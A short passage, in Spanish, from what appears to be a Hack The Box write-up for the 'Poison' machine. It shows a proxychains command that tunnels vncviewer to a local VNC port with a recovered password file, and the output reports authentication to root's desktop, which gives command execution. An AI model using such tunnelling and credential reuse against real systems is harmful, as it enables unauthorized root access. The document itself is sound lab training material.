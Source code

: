 Bueno ahora pasandole los argumentos que nos pide la herramienta y usando `proxychains` para poder pasar por el túnel que acabamos de crear vemos esto 

```bash
❯ proxychains vncviewer 127.0.0.1:5901 -passwd secret
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:5901-<><>-OK
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication successful
Desktop name "root's X desktop (Poison:1)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Same machine: preferring raw encoding
```

![](/assets/images/htb-writeup-poison/web11.png)

Podemos ejecutar comandos
